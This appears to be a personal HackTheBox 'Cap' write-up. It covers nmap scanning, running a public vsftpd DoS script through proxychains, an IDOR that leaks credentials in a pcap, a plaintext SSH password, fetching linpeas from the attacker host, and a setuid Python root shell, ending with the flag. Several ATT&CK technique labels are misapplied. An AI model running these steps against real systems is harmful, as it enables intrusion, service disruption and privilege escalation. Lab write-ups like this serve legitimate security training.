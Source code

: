 ```yaml
---
Category: 
Difficulty: Easy
Platform: HackTheBox
status: 
tags:
  - IDOR
  - LinPEAS
  - Burp-Suite
  - Whireshark
  - Linux
  - SetUID
---
```


>[!quote]
>Challenge description

# Plan



# Information Gathering

## Active Scanning - T1595
Use nmap for scan
```bash
sudo nmap -vvv -Pn -sCV -p-65535 --reason -oN cap.nmap 10.10.10.245
```

Discover port: 80 - HTTP, 22 - SSH, 21 - FTP

## Gather Victim Host Information. Software - T1592.002
Access FTP with user "anonymous" with password leave blank:

```bash
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
80/tcp open  http    syn-ack ttl 63 Gunicorn
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
|_http-server-header: gunicorn
```

Version of FTP machine used is **vsFTPd 3.0.3**:
- Use search port with `searchsploit` 

![[Hackthebox/attachments/Cap-2.png]]

Display content of exploit 49719
```bash
searchsploit 49719
```

![[Cap-3.png]]

![[Cap-4.png]]

But script error:

![[Cap-5.png]]

So i will use scipt is customed on github
```bash
git clone https://github.com/kuppamjohari/vsftpd-3.0.3-DoS.git
```
# Initial access
## Compromise Software Supply Chain - T1195.002
Implemant script to error dos of block legitial user:
```bash
python3 vsftpd-3.0.3-DoS/vsftpd3-0-3-DoS.py 10.10.10.245 21 44
```

![[Cap-6.png]]

When it's limited, just run this script from different proxies using proxychains, and it will work
addition line ip attack
```bash
sudo vim /etc/proxychains4.conf
```

![[Cap-7.png]]


## Software Deployment Tools - T1072
Cannot implement ftp
![[Cap-9.png]]

# Access Web 
![[Pasted image 20250808150357.png]]
## Bug 1

>[!bug] 
> Normal users start downloading from`index 1`, but they can manually access`index 0` and download `0.pcap`, which contains credentials. These credentials can be used to access FTP and SSH.


access ssh with username is `nathan` and password `Buck3tH4TF0RM3!`

Then start web server port 9000 on local with command
```bash
python3 -m http.server 9000
```

another machine want to download file so use command

```bash
wget http://10.10.14.43:9000/linpeas.sh
```

Change permission  `execute` for file `linpeas.sh`

```bash
chmod +x linpeas.sh
```

Run tool and record in file `linpeas.txt`

```bash
./linpeas.sh > linpeas.txt
```

First, I want to check for errors related to `setuid`.

![[Cap.png]]

## Bug 2

>[!bug]
> User Identification Variables
> [euid, ruid, suid - HackTricks](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/euid-ruid-suid.html)

So check id

![[Bug-Bounty Hunting & Web Security Testing/attachments/Cap-1.png]]

![[Bug-Bounty Hunting & Web Security Testing/attachments/Cap-2.png]]

So now write script python `exploit.py`to set value for uid equal `0` this is root

```python
import os
os.setuid(0)
os.system("/bin/bash")
```

Run script and get flag

```bash
python3 exploit.py
cat /root/root.txt
```

``
# Flag

>[!success] Flag
> `a7627e5d94e261490903b6bd8d183e0f`

